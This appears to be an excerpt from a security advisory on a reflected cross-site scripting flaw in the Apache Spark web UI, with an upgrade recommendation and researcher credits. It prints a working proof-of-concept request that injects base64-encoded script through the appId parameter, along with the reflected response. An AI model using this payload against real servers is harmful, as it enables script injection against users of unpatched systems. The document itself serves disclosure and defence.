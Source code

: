 Update to Apache Spark 2.1.2, 2.2.0 or later.

Example:

Request:

```
GET /app/?appId=Content-Type:%20multipart/related;%20boundary=_AppScan%0d%0a--
_AppScan%0d%0aContent-Location:foo%0d%0aContent-Transfer-
Encoding:base64%0d%0a%0d%0aPGh0bWw%2bPHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD48L2h0bWw%2b%0d%0a
HTTP/1.1
```

Excerpt from response:

```
<div class="row-fluid">No running application with ID Content-Type: multipart/related;
boundary=_AppScan
--_AppScan
Content-Location:foo
Content-Transfer-Encoding:base64
PGh0bWw+PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD48L2h0bWw+
</div>
```

Result: In the above payload the BASE64 data decodes as:

```
<html><script>alert("XSS")</script></html>
```

Credit:

- Mike Kasper, Nicholas Marion
- IBM z Systems Center for Secure Engineering
